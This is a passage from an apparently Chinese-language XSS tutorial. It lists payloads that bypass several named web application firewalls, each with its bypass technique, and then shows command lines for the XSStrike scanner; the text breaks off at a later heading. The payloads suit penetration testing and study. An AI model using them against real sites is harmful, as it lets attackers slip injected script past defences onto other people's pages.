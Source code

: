 6. 6.结合其他漏洞绕过


下面的列表包含了可绕过的WAF、Paylaod以及相关的绕过技术

    WAF名称：Cloudflare
    Payload：<a”/onclick=(confirm)()>click
    绕过技术：非空格填充
    
    WAF名称：Wordfence
    Payload：<a/href=javascript&colon;alert()>click
    绕过技术：数字字符编码
    
    WAF名称：Barracuda
    Payload：<a/href=Java%0a%0d%09script&colon;alert()>click
    绕过技术：数字字符编码
    
    WAF名称：Comodo
    Payload：<d3v/onauxclick=(((confirm)))“>click
    绕过技术：黑名单中缺少事件处理器以及函数调用混淆
    
    WAF名称：F5
    Payload：<d3v/onmouseleave=[2].some(confirm)>click
    绕过技术：黑名单中缺少事件处理器以及函数调用混淆
    
    WAF名称：ModSecurity
    Payload：<details/open/ontoggle=alert()>
    绕过技术：黑名单中缺少标签或事件处理器
    
    WAF名称：dotdefender
    Payload：<details/open/ontoggle=(confirm)()//
    绕过技术：黑名单中缺少结束标签、事件处理器和函数调用混淆

## 10.XSStrike工具使用

### 1.测试一个使用GET方法的网页：

    python xsstrike.py -u "http://example.com/search.php?q=query"

### 2.测试POST数据：

    python xsstrike.py -u "http://example.com/search.php" --data "q=query"
    python xsstrike.py -u "http://example.com/search.php" --data '{"q":"query"} --json'

### 3.测试URL路径：

    python xsstrike.py -u "http://example.com/search/form/query" --path

### 4.从目标网页开始搜寻目标并进行测试

    python xsstrike.py -u "http://example.com/page.php" --crawl

您可以指定爬网的深度,默认2：-l

    python xsstrike.py -u "http://example.com/page.php" --crawl -l 3

### 5.–seeds
